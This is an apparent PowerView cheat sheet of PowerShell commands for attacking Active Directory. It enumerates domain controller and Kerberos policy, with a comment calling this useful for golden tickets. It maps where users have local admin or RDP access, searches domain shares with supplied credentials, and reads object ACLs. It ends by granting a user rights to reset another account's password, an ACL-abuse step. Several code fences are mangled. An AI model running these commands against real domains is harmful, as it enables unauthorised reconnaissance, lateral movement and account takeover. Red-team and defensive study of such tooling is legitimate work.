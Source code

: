 # enumerate the current domain controller policy
```powershell
$DCPolicy = Get-DomainPolicy -Policy DC
$DCPolicy.PrivilegeRights ```
# user privilege rights on the dc...

```
# enumerate the current domain policy
```powershell
$DomainPolicy = Get-DomainPolicy -Policy Domain
$DomainPolicy.KerberosPolicy ```
# useful for golden tickets ;)
$DomainPolicy.SystemAccess ```
# password age/etc.

```
# enumerate what machines that a particular user/group identity has local admin rights to
```powershell
#   Get-DomainGPOUserLocalGroupMapping == old Find-GPOLocation
Get-DomainGPOUserLocalGroupMapping -Identity <User/Group>

```
# enumerate what machines that a given user in the specified domain has RDP access rights to
```powershell
Get-DomainGPOUserLocalGroupMapping -Identity <USER> -Domain <DOMAIN> -LocalGroup RDP

```
# export a csv of all GPO mappings
```powershell
Get-DomainGPOUserLocalGroupMapping | %{$_.computers = $_.computers -join ", "; $_} | Export-CSV -NoTypeInformation gpo_map.csv

```
# use alternate credentials for searching for files on the domain
```powershell
#   Find-InterestingDomainShareFile == old Invoke-FileFinder
$Password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential("DOMAIN\user",$Password)
Find-InterestingDomainShareFile -Domain DOMAIN -Credential $Credential

```
# enumerate who has rights to the 'matt' user in 'testlab.local', resolving rights GUIDs to names
```powershell
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain testlab.local

```
# grant user 'will' the rights to change 'matt's password
```powershell
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose

```